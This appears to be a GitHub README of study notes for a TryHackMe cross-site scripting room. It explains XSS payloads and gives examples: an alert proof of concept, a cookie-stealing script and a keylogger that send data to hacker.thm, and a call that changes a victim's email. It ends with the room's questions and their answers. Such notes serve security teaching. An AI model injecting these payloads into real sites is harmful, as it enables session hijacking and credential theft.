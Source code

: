 # [XSS Payloads](https://tryhackme.com/room/xssgi)

## What is a Payload?

- In XSS, the payload is the ***JavaScript code*** we wish to be executed on the targets computer. There are two parts to the payload, **<ins>the Intention and the Modification</ins>**.


- `The intention` is what you wish the JavaScript to actually do (some examples below), and `the modification` is the changes to the code we need to make it execute as every scenario is different.


## Here are some examples of XSS intentions 
- See all below mentioned scripts [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20XSS%20Payloads/Payload%20List)

### 1. Proof of Concept (PoC)

- This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an ***alert box*** to pop up on the page with a string of text, for example:

  [<script>alert('XSS');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/1.%20POC.js)

### 2. Session Stealing

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, **base64** encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


  [<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/2.%20SessionStealing.js)
  
### 3. Key Logger
  
- The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted **user logins or credit card details**.
  
  [<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/3.%20KeyLogger.js)
  
### 4. Business Logic

- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  [<script>user.changeEmail('attacker@hacker.thm');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/04%20-%20XSS%20Payloads/Payload%20List/4.%20BusinessLogic.js)

- Now that the email address for the account has changed, the attacker may perform a reset password attack.

# Answer the questions below

1. Which document property could contain the user's session token?
```
document.cookie
```

2. Which JavaScript method is often used as a Proof Of Concept?
```
alert
```

